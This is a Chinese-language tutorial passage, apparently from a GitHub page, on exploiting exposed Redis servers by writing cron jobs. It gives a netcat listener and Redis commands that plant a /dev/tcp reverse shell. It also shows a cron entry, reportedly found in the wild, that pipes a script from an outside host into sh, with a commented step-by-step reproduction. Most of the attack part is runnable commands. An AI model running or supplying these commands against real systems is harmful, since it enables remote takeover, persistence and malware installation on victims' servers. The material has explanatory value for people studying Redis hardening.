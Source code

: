 
### 利用 crontab 攻击
在**权限足够的情况**下，利用 redis 写入文件到计划任务目录下执行。
#### 反弹 shell
反弹 Shell（Reverse Shell）是指被攻击的主机主动向攻击者的主机发起连接，从而使攻击者能够获得目标主机的 Shell 访问权限。

端口监听:在攻击者服务器上监听一个端口（未被占用的任意端口）
```
nc -lvnp 4444
```
- `-l`：表示监听模式。
- `-v`：启用详细输出模式。
- `-p`：指定端口号。
- `-n` 禁用 DNS 解析。不会尝试将 IP 地址解析为主机名，这可以提高速度并减少不必要的网络流量。
连接 redis，写入反弹 shell
```
redis-cli -h 192.168.0.104
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.104/4444 0>&1\n\n"
```

```
config set dir /var/spool/cron
config set dbfilename root
save
```
过一分钟左右就可以收到 shell

#### 计划任务注入攻击
利用计划任务（cron job）执行远程脚本。攻击者通过 Redis 命令将计划任务文件保存到系统的 cron 目录，原理同上，使用 Redis 的 `SAVE` 或 `BGSAVE` 命令将注入的计划任务持久化到磁盘。例如 `/var/spool/cron/crontabs`。

这是我从网上扫出来的某个 redis 中发现的键的值。
```



*/2 * * * * root cd1 -fsSL http://en2an.top/cleanfda/init.sh | sh


```

意图：持续控制受害者机器、下载和执行更多恶意软件，进行窃取数据或挖矿等恶意行为。

攻击过程：
```sh
# 连接到目标 Redis 实例
redis-cli -h <redis_ip> -p <redis_port>

# 设置 Redis 数据存储目录为 /var/spool/cron/crontabs
# 这个目录通常用于存放系统的计划任务文件
config set dir /var/spool/cron/crontabs

# 设置 Redis 数据库文件名为 root
# 这样保存的文件将会是 /var/spool/cron/crontabs/root
config set dbfilename root

# 设置一个计划任务到 Redis 数据库中
# 这个任务每两分钟执行一次，使用 curl 下载并执行远程脚本
set backup1 "\n\n*/2 * * * * root curl -fsSL http://en2an.top/cleanfda/init.sh | sh\n\n"

# 保存 Redis 数据到磁盘，生成 cron 文件
save

# 断开 Redis 连接
quit
```
